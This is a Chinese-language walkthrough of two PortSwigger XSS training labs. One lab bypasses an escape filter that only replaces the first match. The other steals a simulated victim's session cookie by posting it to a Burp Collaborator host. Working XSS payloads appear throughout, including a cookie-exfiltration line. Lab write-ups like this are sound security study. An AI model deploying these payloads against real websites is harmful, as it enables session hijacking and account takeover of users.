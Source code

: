 ## [Lab: Stored DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored)
### 題目敘述
 This lab demonstrates a stored DOM vulnerability in the blog comment functionality. To solve this lab, exploit this vulnerability to call the alert() function. 
### 題目解釋
JS Replace 小特性，只會 Replace 第一個

### 解答

觀察原始碼，重點應該在這邊
```javascript=
function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}
```

有一個 JS 的小特性，他的 Replace 只會套用第一個參數
```
"<><>".replace("<",1).replace(">",2) 會回傳 `12<>`
```

所以 Payload

```
<> <img src=1 onerror=alert(1)>
```

## [Lab: Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)
### 題目敘述
 This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. 
### 題目解釋
XSS 偷餅乾

### 解答

```
<img src="1" onerror="console.log(1)">
```
可以順利 XSS

```
<img src=1 onerror="new Image().src='http://moe22y1n6clplh2d0x7lk0n77ydo1d.burpcollaborator.net/'+document.cookie">
```

然後就收到了
